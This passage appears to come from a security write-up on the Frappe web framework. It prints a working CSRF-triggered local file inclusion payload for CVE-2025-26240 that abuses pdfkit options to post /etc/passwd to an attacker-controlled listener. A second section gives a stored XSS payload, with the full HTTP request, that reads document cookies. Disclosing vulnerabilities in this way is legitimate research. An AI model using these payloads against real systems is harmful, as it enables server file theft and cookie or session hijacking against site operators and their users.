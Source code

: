Another way to exploit the CSRF is to attack the web server with the `LFI` exploiting CVE-2025-26240. If the http content on attacker's server was as follows the attacker would see contents of `/etc/passwd` being send to their server listening on `http://172.17.0.1:8888`.
```html
<meta http-equiv="refresh" content="0; url=http://example.com/api/method/frappe.utils.print_format.report_to_pdf?html=<meta+name%3d'pdfkit-print-media-type'+content%3d''><meta+name%3d'pdfkit-background'+content%3d''><meta+name%3d'pdfkit-images'+content%3d''><meta+name%3d'pdfkit-quiet'+content%3d''><meta+name%3d'pdfkit-encoding'+content%3d''><meta+name%3d'pdfkit-margin-right'+content%3d''><meta+name%3d'pdfkit-margin-left'+content%3d''><meta+name%3d'pdfkit-margin-top'+content%3d''><meta+name%3d'pdfkit-margin-bottom'+content%3d''><meta+name%3d'pdfkit-cookie-jar'+content%3d''><meta+name%3d'pdfkit-page-size'+content%3d''><meta+name%3d'pdfkit-quiet'+content%3d''>+<meta+name%3d'pdfkit---disable-local-file-access'+content%3d''>+<meta+name%3d'pdfkit---allow'+content%3d'/etc'>+<meta+name%3d'pdfkit---post-file'+content%3d''>+<meta+name%3d'pdfkit-file--a'+content%3d'/etc/passwd'>+<meta+name%3d'pdfkit-http%3a//172.17.0.1%3a8888%3fLFI-TEST%3d--'+content%3d'--cache-dir'>+<h1>LFI+POC</h1>"/>
```

### **2. Stored XSS**
 When we send POST request providing for example, `{"user_image":"http://\"><img src=x onerror=console.log(document.cookie)>"}` as the `profile_info` value, we can see that the image is rendered, and the document cookies are logged in the console.

 **Request:**
 ```http 
POST  /api/method/frappe.desk.page.user_profile.user_profile.update_profile_info HTTP/1.1
Host: localhost:8080
X-Frappe-CSRF-Token: 1a34e75a0c0471bf0138c5ab966040a59a2f5290f811314f19bb85c3
Cookie: sid=1612f02626922182dfbe581e3f3961a9c36ef1b14efa7b26f880715a
Content-Length: 128
Content-Type: application/x-www-form-urlencoded


profile_info=%7b%22user_image%22%3a%22http%3a%2f%2f%5c%22%3e%3cimg%20src%3dxyz%20onerror%3dconsole.log(document.cookie)%3e%22%7d
 ```
**Result:**

![Stored XSS](/docs/assets/frappe-shallow-dive-frappe-stored-XSS.png)
